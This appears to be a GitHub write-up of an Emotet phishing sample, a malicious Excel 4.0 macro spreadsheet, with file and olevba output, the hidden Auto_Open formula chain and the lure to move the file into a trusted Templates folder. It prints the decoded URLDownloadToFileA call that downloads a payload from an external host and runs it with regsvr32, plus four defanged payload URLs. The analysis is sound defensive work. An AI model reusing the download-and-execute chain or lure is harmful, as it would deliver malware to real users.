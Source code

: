 # Malicious XLS Document (Emotet)

I have spotted this maliciously looking email targeting our support people and it get me wondering what it is all about. After a detonation in AnyRun, it was apparent that it is Emotet malware, but I haven't seen this type of a Excel spreadsheet before.

```

Summary
In April 2022, Netskope Threat Labs analyzed an Emotet campaign that was using LNK files instead of Microsoft Office documents, likely as a response to the protections launched by Microsoft in 2022 to mitigate attacks via Excel 4.0 (XLM) and VBA macros.

However, we recently came across hundreds of malicious Office documents that are being used to download and execute Emotet, indicating that some attackers are still using old delivery methods in the wild. Despite the protection Microsoft released in 2022 to prevent the execution of Excel 4.0 (XLM) macros, this attack is still feasible against users who are using outdated versions of Office. It is also feasible against users who have changed the default setting to explicitly enable macros. The fact that attackers are still using Excel 4.0 Macros indicates that outdated Office versions and users who have this protection disabled are still common.

```

## Stage 01 - Email

The email itself is not very good phishing attempt, it screams problems all over it, but I guess they are going for quantity, not quality.

![Alt text](data/emotet_email.png?raw=true "Email sample")

## Stage 02 - Malicious XLS document

So what are we dealing with.

```
└─$ file RVP664343444ZG.xls
RVP664343444ZG.xls: Composite Document File V2 Document, Little Endian, Os: Windows, Version 10.0, Code page: 1251, Author: Gydar, Last Saved By: Gydar, Name of Creating Application: Microsoft Excel, Create Time/Date: Fri Jun  5 19:19:34 2015, Last Saved Time/Date: Mon Nov  7 19:53:23 2022, Security: 0
```

![Alt text](data/document_sample.png?raw=true "Document details")

Excel document uses the first line of all the sheets to show a fabricated message, that relaunch is required and the file needs to go to `Templates` folder. This is a way how to get the macro executed within the file without user consent, but I have never seen this technique before.

```
%PROGRAMFILES%\Microsoft Office\root\Templates and its subdirectories contain templates for Office applications that are available for all users on a computer.
This directory as well as its subdirectories is in the default list of MS Office: Trusted Locations for Excel, Word and PowerPoint.
```

This points out to conclusion that it uses Excel 4.0 macro. Let's verify it with `olevba`.

```
└─$ olevba RVP664343444ZG.xls
olevba 0.60.1 on Python 3.10.5 - http://decalage.info/python/oletools
===============================================================================
FILE: RVP664343444ZG.xls
Type: OLE
-------------------------------------------------------------------------------
VBA MACRO xlm_macro.txt
in file: xlm_macro - OLE stream: 'xlm_macro'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
' 0085     13 BOUNDSHEET : Sheet Information - worksheet or dialog sheet, visible - Shee
' 0085     14 BOUNDSHEET : Sheet Information - worksheet or dialog sheet, visible - Sheet
' 0085     14 BOUNDSHEET : Sheet Information - worksheet or dialog sheet, visible - Sheet
' 0085     14 BOUNDSHEET : Sheet Information - worksheet or dialog sheet, visible - Sheet
' 0085     14 BOUNDSHEET : Sheet Information - worksheet or dialog sheet, visible - Sheet
' 0085     14 BOUNDSHEET : Sheet Information - worksheet or dialog sheet, visible - Sheet
' 0085     14 BOUNDSHEET : Sheet Information - Excel 4.0 macro sheet, visible - Sheet
' 0018     29 LABEL : Cell Value, String Constant - _xlfn.SINGLE hidden len=2 ptgErr  *INCOMPLETE FORMULA PARSING* Remaining, unparsed expression: b'\x1d'
' 0018     58 LABEL : Cell Value, String Constant - built-in-name 1 Auto_Open len=7 ptgRef3d Sheet!G3
' 002a      2 PRINTHEADERS : Print Row/Column Labels
```

Let's dig little bit deeper and look for the auto open.

![Alt text](data/document_sample.png?raw=true "Document details")

`Auto_Open07457358934307593258350725798323209` points out to a hidden column. That holds  a formula, which reference hidden data all over the other sheets and it is used to put together. At this point we are getting to the classical Emotet stuff.

`=FORMULA(Sheet1!L24&Sheet1!L26&Sheet1!L27&Sheet1!L28&Sheet1!L28&Sheet2!F6&Sheet2!N19&Sheet1!F10&Sheet2!R3&Sheet5!Q21&Sheet2!F26&Sheet3!R13&Sheet5!E9&Sheet3!M26,G16)=FORMULA(Sheet1!L24&Sheet1!G8&Sheet1!F4&Sheet1!G8&Sheet1!L26&Sheet1!L30&Sheet1!F24&Sheet1!L26&Sheet3!F19&Sheet3!D5&Sheet1!A4&Sheet3!J14&Sheet1!A4&Sheet3!C32&Sheet1!F10&Sheet3!O23&Sheet3!P21&Sheet3!L8&Sheet5!E9&Sheet1!F24&Sheet1!L31,G18)=FORMULA(Sheet1!L24&Sheet1!L26&Sheet1!L27&Sheet1!L28&Sheet1!L28&Sheet2!F6&Sheet2!N19&Sheet1!F10&Sheet2!R3&Sheet5!Q21&Sheet2!G28&Sheet3!R13&Sheet5!G15&Sheet3!M26,G20)=FORMULA(Sheet1!L24&Sheet1!G8&Sheet1!F4&Sheet1!G8&Sheet1!L26&Sheet1!L30&Sheet1!F24&Sheet1!L26&Sheet3!F19&Sheet3!D5&Sheet1!A4&Sheet3!J14&Sheet1!A4&Sheet3!C32&Sheet1!F10&Sheet3!O23&Sheet3!P21&Sheet3!L8&Sheet5!G15&Sheet1!F24&Sheet1!L31,G22)=FORMULA(Sheet1!L24&Sheet1!L26&Sheet1!L27&Sheet1!L28&Sheet1!L28&Sheet2!F6&Sheet2!N19&Sheet1!F10&Sheet2!R3&Sheet5!Q21&Sheet2!I27&Sheet3!R13&Sheet5!J3&Sheet3!M26,G24)=FORMULA(Sheet1!L24&Sheet1!G8&Sheet1!F4&Sheet1!G8&Sheet1!L26&Sheet1!L30&Sheet1!F24&Sheet1!L26&Sheet3!F19&Sheet3!D5&Sheet1!A4&Sheet3!J14&Sheet1!A4&Sheet3!C32&Sheet1!F10&Sheet3!O23&Sheet3!P21&Sheet3!L8&Sheet5!J3&Sheet1!F24&Sheet1!L31,G26)=FORMULA(Sheet1!L24&Sheet1!L26&Sheet1!L27&Sheet1!L28&Sheet1!L28&Sheet2!F6&Sheet2!N19&Sheet1!F10&Sheet2!R3&Sheet5!Q21&Sheet2!J29&Sheet3!R13&Sheet5!L12&Sheet3!M26,G28)=FORMULA(Sheet1!L24&Sheet1!G8&Sheet1!F4&Sheet1!G8&Sheet1!L26&Sheet1!L30&Sheet1!F24&Sheet1!L26&Sheet3!F19&Sheet3!D5&Sheet1!A4&Sheet3!J14&Sheet1!A4&Sheet3!C32&Sheet1!F10&Sheet3!O23&Sheet3!P21&Sheet3!L8&Sheet5!L12&Sheet1!F24&Sheet1!L31,G30)=FORMULA(Sheet1!L24&Sheet1!G44&Sheet1!H46&Sheet1!J44,G36)`

Let's get the strings this function constructs.

```
"CALL("urlmon","URLDownloadToFileA","JJCCBB",0,"https://cpcwiki[.]de/images/rirOpdztUEfG7WJ","..\oxnv1.ooccxx,0,0)"EXEC("C:\Windows\System32\regsvre /S ..\oxnv1.ooccxx:")"
```

Four different domains were used to download four different malicious ooccxx files.

Following four URLs were used for downloading malicious file
```
hxxps://cpcwiki[.]de/images/rirOpdztUEfG7WJ
hxxp://www.atashelement[.]ir/qds-seo-url-autofill/tmSetsq0wxsmXdA/
hxxp://a.angel-tn.idv[.]tw/web_images/aa7fEDOPvT2F1i/
hxxps://www.conceptagency[.]net/css/zXC/
```

## Requirements

- Cyberchef and regex enabled editor

## Questions

### Powershell code

Go to Cyberchef -> Base64 decode -> Decode text as ISO-8859

## Reading

https://blog.reversinglabs.com/blog/excel-4.0-macros

https://www.optimizationcore.com/security/extract-vba-macro-from-microsoft-word-excel-oledump/
https://www.optimizationcore.com/security/excelsheetunhide-reveal-unhide-hidden-excel-sheets/
https://github.com/denk-core/ExcelSheetUnhide
